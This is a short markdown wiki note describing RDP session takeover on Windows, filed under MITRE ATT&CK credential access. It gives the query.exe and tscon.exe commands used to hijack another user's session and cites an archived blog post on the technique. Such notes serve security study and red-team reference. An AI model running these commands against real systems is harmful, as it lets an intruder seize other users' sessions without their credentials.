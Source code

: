 ```yaml
---
title: RDP Session Takeover
---
```


[[notes/mitre-attack/credential-access]] on [[notes/windows/index]] by taking over [[notes/network/rdp]] sessions.

~~~ bat
query.exe user
tscon.exe 1 /dest:rdp-tcp#55
~~~

This can be done via task manager as well ([source](https://web.archive.org/web/20221111181338/https://www.korznikov.com/2017/03/0-day-or-feature-privilege-escalation.html)).
